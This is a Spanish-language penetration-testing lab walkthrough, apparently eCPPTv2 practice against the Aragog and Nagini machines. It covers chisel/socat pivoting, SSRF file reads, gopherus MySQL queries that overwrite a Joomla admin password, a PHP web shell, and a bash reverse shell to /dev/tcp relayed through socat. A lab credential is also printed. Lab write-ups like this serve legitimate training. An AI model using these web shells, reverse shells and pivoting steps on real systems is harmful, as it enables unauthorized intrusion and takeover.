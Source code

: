 #### <font color="#fac08f"><u>Pivoting</u> Aragog</font>
Copiamos en primer lugar chisel y socat con :
```python 
$> scp -i ~/ssh/ecpptv2 chisel root@192.168.50.230:/root/ # Copia chisel
$> scp -i ~/ssh/ecpptv2 socat root@192.168.50.230:/root/ # Copia socat
```
Levantamos server chisel

```python 
$> sudo ./chisel server --reverse -p 1234 # Kali: Creamos SERVER CHISEL
$> ./chisel client 192.168.50.221:1234 R:socks R:443:10.10.0.128:443/udp # VICTIMA: Nos conectamos a la ip y port del "sever_Chisel", y despues nos mandamos el port 80 del HOST que no alzancamos "10.10.0.128" a nuestro 80.
$> IMPORTANTE: modificar el fichero /etc/proxychains.conf -> "strict_chains" & "socks5 127.0.0.1 1080" 
```

### <font color="#de7802">Nagini</font>
#### <font color="#fac08f">Enumeración</font>

-  <u>Enumeración de hosts y Ports desde Aragog:</u>
	- Subimos [NetScan](https://raw.githubusercontent.com/r4mnx/Tools/main/NetScan/NetScan.sh) en Aragog para realizar un scaneo de hosts y ports
	- Nagini -> 10.10.0.128 -> Puertos 22 y 80 abiertos
	- Browser -> con foxy  proxy podemos configurar un nuevo proxy socks5 127.0.0.1 1080, y bajo este proxy podemos ver la WEB desde nuestra máquina de atacante
- Puerto 22
- Puerto 80
	- Realizamos un escaneo de directorio a la web `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.0.128' -t 20 -x html,php,txt --proxy socks5://127.0.0.1:1080` -> /note.txt 
	- http://10.10.0.128/note.txt -> vitual host:  https://quic.nagini.hogwarts y es http3 -> Preparamos el cliente de chisel par cambiar el pueto 80 por el 443 y descargamos esta [Tool](https://github.com/cloudflare/quiche)para interpretar http3.
	- Al instalar la quiche necesitamos desinstalar rustc y volver a instalarlo desde este [repo](https://github.com/rust-lang/rust)
	- Encontramos `/internalResourceFeTcher.php` 
#### <font color="#fac08f">Intrusión</font>
 - En la ruta  `/internalResourceFeTcher.php`
	- Podemos leer archivos del sevidor `file:///etc/passwd` nada interesante.
	- Escaneamos el joomla y encontramos un .bak el cual contiene unas credenciales de "mysql", goblin:ILhwP6HTYKcN7qMh. 
	- Se nos ocurre usar "gopherus" para poder extraer información de la mysql.
	- USE joomla; SHOW TABLES; # Listamos tablas
	- USE joomla; SHOW COLUMNS FROM joomla\_users; # Listamos columnas
	- USE joomla; SHOW COLUMNS FROM joomla\_users; # Extraemos un hash de admin
	- Intentamos crakear con john sin exito.
	- Entonces se nos ocurre cambiar la contraseña con gopherus al admin.
	- Generamos una pass `echo -n "r4mnx123" | md5sum` y generamos una query
	- USE joomla; UPDATE joomla\_users SET password = 'cd8e33f59a088b0f6df2911a251bfabe' WHERE email= 'site\_admin@nagini.hogwarts';
	- En /joomla/adminitrator accedemos como "site\_admin:r4mnx123"
	- En la template "protostar" creamos un nuevo fichero shell.php con `<?php system($_GET['cmd']); ?>`
	- `http://10.10.0.128/joomla/templates/protostar/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.0.129/4545%200%3E%261%22` Ejecutamos esta rev shell pero tenemos que tener en cuenta que no tenemos conexión directa con Aragog. 
	- Necesitamos usar un redirecionamiento con socat  para hacerr un fork. `./socat TCP-LISTEN:4545,fork TCP:192.168.50.221:4546` en Aragog.
	- Envio RevShell:
```python
			$> nc -nlvp 4546 # Kali
			$> ./socat TCP-LISTEN:4545,fork TCP:192.168.50.221:4546 # Socat en Aragog, redirección del puerto 4545 de la revShell a nuestra ip por el puerto 4546
```